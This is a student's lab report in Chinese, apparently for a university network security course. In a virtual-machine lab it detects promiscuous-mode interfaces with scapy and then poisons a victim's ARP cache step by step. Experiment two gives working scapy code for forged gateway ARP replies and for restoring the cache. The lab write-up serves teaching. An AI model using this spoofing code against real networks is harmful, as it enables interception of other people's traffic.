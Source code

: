 ## 网络安全第四章实验报告 

### 网络拓扑结构 
![](img/网络拓扑.jpg) 

身份 | 虚拟机名称 |   IP  | MAC地址
-|-|-|-
网关 | debian | 172.16.111.1 | 08:00:27:31:a5:65|
攻击者主机 | kali-attacker | 172.16.111.118 |08:00:27:38:f0:53 |
目标靶机 | victim-kali-1 | 172.16.111.108 | 08:00:27:a4:68:ab |

实验准备
* 在攻击者主机安装scapy
  * 不明白为什么要特地安装，kali不是有自带的吗
  * 装了之后启动有问题，所以还是用了自带的emm
```
sudo apt update && sudo apt install python3 python3-pip
pip3 install scapy[complete]
```

![](img/安装scapy.png) 

### 实验一 检测局域网中的异常终端
1. 在受害者主机上检查网卡的「混杂模式」是否启用
   ```
   ip link show eth0
   ```

   ![](img/检查混杂模式.png) 

2. 在攻击者主机上开启scapy

   ![](img/开启scapy.png)

3. 在 scapy 的交互式终端输入以下代码回车执行

   （这里scapy报错权限不够所以切成了root用户）

   ```pkt = promiscping("172.16.111.108")```

   ![](img/检测1.png)

4. 回到受害者主机上开启网卡的「混杂模式」

   ```sudo ip link set eth0 promisc on```

   ![](img/开启混杂模式.png)

5. 回到攻击者主机上的 scapy 交互式终端继续执行命令，比较差异

   ![](img/检测2.png)

6. 在受害者主机上手动关闭网卡的「混杂模式」
   
   ![](img/关闭混杂模式.png)

### 实验二 手工单步“毒化”目标主机的 ARP 缓存

以下未特殊标记操作均作用于攻击者主机

1. 获取当前局域网的网关 MAC 地址
```
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![](img/构造ARP请求.png)

![](img/获取网关MAC地址.png)

2. 伪造网关的 ARP 响应包发送给受害者主机
```
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.108", hwdst= "08:00:27:38:f0:53")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![](img/伪造网关的ARP响应包.png)

3. 在受害者主机上查看 ARP 缓存

![](img/受害者查看缓存（未毒化）.png) 

  * 没有被毒化，看到有同学说构造时需要加Ethernet帧头
  
  ```
  arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.108", hwdst="08:00:27:38:f0:53")
  sendp(arpspoofed)
  ```
  ![](img/伪造网关的ARP响应包2.png)
  
  * 再次在受害者主机上查看 ARP 缓存，网关的 MAC 地址已被替换为攻击者主机的 MAC 地址

  ![](img/受害者查看缓存（毒化）.png) 

4. 恢复受害者主机的 ARP 缓存记录
```
# 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:31:a5:65", pdst="172.16.111.108", hwdst="08:00:27:a4:68:ab")
sendp(restorepkt1, count=100, inter=0.2)
```

![](img/restorepkt1.png) 

5. 在受害者主机上“刷新”网关 ARP 记录
```
# 在受害者主机上ping网关
ping 172.16.111.1
#  再次查看ARP缓存
ip neigh
```

![](img/刷新.png) 

### 参考资料
* https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html
* https://github.com/CUCCS/2020-ns-public-AlinaZxy/blob/chap04/chap04/chap04.md